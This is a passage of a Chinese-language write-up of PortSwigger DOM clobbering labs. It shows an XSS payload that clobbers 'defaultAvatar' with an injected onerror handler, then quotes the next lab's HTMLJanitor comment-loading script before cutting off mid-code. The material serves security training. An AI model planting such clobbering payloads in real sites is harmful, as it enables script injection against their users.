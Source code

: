 在 Comment 輸入

```html
<a id="defaultAvatar"></a>
<a id="defaultAvatar" name="avatar" href='mailto:" onerror="alert(1)'></a>
```

第二次輸入評論時，就會載入 clobbering 過後的 `defaultAvatar.avatar`，但竟然沒有 Solved Lab，我覺得判斷機制有問題XD

## Lab: Clobbering DOM attributes to bypass HTML filters

| Dimension | Description                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/dom-based/dom-clobbering#how-to-exploit-dom-clobbering-vulnerabilities        |
| Lab       | https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters |

觀察 Comment 頁面有 `loadCommentsWithHtmlJanitor.js`

```js
function loadComments(postCommentPath) {
  let xhr = new XMLHttpRequest();
  xhr.onreadystatechange = function () {
    if (this.readyState == 4 && this.status == 200) {
      let comments = JSON.parse(this.responseText);
      displayComments(comments);
    }
  };
  xhr.open("GET", postCommentPath + window.location.search);
  xhr.send();
  let janitor = new HTMLJanitor({
    tags: {
      input: { name: true, type: true, value: true },
      form: { id: true },
      i: {},
      b: {},
      p: {},
    },
  });

  function displayComments(comments) {
    let userComments = document.getElementById("user-comments");

    for (let i = 0; i < comments.length; ++i) {
      comment = comments[i];
      let commentSection = document.createElement("section");
      commentSection.setAttribute("class", "comment");

      let firstPElement = document.createElement("p");

      let avatarImgElement = document.createElement("img");
      avatarImgElement.setAttribute("class", "avatar");
      avatarImgElement.setAttribute(
        "src",
        comment.avatar ? comment.avatar : "/resources/images/avatarDefault.svg",
      );

      if (comment.author) {
        if (comment.website) {
          let websiteElement = document.createElement("a");
          websiteElement.setAttribute("id", "author");
          websiteElement.setAttribute("href", comment.website);
          firstPElement.appendChild(websiteElement);
        }

```